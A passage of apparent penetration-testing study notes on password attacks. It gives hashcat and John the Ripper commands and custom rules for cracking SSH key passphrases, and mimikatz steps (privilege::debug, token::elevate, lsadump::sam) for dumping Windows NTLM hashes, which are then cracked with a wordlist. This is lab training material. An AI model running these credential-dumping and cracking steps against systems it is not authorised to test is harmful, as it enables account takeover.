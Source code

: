 hashcat mode for ssh
```
hashcat -h | grep -i "ssh"
```
hashcat rule
```
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```
run the cracking using
```
hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force
```
without rule 
```
hashcat -m 22921 ssh.hash ssh.passwords --force
```

switching to john
rules needed for jtr
```
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```
and add it to the jtr conf file
```
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```
and then run the hash cracker
```
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```


# Working with Password Hashes

### Cracking NTLM
start mimikatz using 
```
.\mimikatz.exe
```
then run the below 2 commands
```
privilege::debug
```
then we run
```
token::elevate
```
and should get `impersonated!` as the output
then we run this to display the ntlm hashes
```
lsadump::sam
```
#### Cracking NTLM
Run this cmd to check the correct mode
```
hashcat --help | grep -i "ntlm"
```
run the below cmd to crack the ntlm hash
```
hashcat -m 1000 <hash> /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

